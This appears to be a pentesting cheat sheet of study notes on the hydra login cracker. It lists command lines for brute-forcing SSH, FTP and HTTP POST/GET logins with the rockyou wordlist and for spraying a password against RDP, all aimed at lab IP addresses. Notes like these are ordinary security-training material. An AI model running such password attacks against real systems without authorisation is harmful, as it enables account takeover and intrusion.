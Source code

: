 > A parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add


#Password_Attacks #SSH

Using `hydra` to brute force SSH using `rockyou.txt` given a username from your Kali Machine
```bash
sudo hydra -l salesman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.101
```

#RDP 

Using `hydra` to spray a password on RDP service given list of username from your Kali Machine
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SupahSu55y1337#" rdp://192.168.100.101
```

#FTP

Using `hydra` to brute force FTP using `rockyou.txt` given a username from your Kali Machine
```bash
sudo hydra -l salesadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.100.123
```

#Web_Application 

Using `hydra` to do a Dictionary Attack on HTTP POST Login Form from your Kali Machine
```bash
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.169.123 http-post-form "/index.php:field_usr=user&field_pwd=^PASS^:Login unsuccessful."
```

Using `hydra` to do a Dictionary Attack on HTTP GET Login from your Kali Machine
```bash
sudo hydra -l salesadmin -P /usr/share/wordlists/rockyou.txt 192.168.169.123 http-get / 
```
